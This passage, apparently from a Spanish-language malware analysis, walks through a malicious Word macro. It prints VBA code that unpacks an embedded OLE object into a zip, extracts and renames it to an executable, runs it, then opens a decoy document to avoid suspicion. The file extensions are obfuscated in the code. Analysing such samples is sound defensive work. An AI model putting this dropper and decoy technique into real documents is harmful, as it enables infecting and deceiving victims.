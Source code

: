 Luego, esperamos que se cambie el nombre del archivo word\embeddings\oleObject1.bin a "vteijam hdgtra.zip", que se extraiga y se cambie el nombre del archivo extraido a "vteijam hdgtra.exe"

```vba
    'Se renombra el archivo mfolder\word\embeddings\oleObject1.bin a "mfoldder\word\vteijam hdgtra.zip"
    Name mfolder & "word\embeddings\oleObject1.bin" As mfolder & "word\" & mfile & Replace(".z_ip", "_", "")

    'Extrae el contenido de "mfoldder\word\vteijam hdgtra.zip" en la ruta de mfolder
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & "word\" & mfile & Replace(".z_ip", "_", "")).items
    
    'Se renombra mfolder\filewedum.bin como mfolder\mfile.exe
    Name mfolder & "oleObject" & filewedum & ".bin" As mfolder & mfile & Replace(".e_xe", "_", "")
```

![alt text](/img/003-zip-exe.png "New zip just arrived")

Finalmente, se ejecuta el binario "vteijam hdgtra.exe":

![alt text](/img/003-execution.png "Executing exe")


Podemos validar la creación de un nuevo proceso en _Process Explorer_ y _Procmon_:

![alt text](/img/003-procExp.png "ProcExp exe")

![alt text](/img/003-procmonexe.png "Procmon exe")


Si bien ya se inició el programa embebido en el documento de Word, queda una tarea pendiente al atacante para no levantar sospechas:

```vba
    'Se guarda el archivo mfolder\word\embeddings\oleObject3.bin como C:\users\usuario\Documents\nombreDocumentoMalicioso.docx
    Dim dokc_paeth As String
    
    dokc_paeth = Environ$("USERPROFILE") & "\Documents\" & Application.ActiveDocument.Name & ".docx"
    
    If Dir(dokc_paeth) = "" Then
        Name mfolder & "word\embeddings\oleObject3.bin" As dokc_paeth
    End If
    
    'Se ejecuta el archivo recientemente creado
    
    Documents.Open FileName
     = dokc_paeth, ConfirmConversions
     = False, _
    ReadOnly
     = False, AddToRecentFiles
     = False, PasswordDocument
     = "", _
    PasswordTemplate
     = "", Revert
     = False, WritePasswordDocument
     = "", _
    WritePasswordTemplate
     = "", Format
     = wdOpenFormatAuto, XMLTransform
     = ""
```
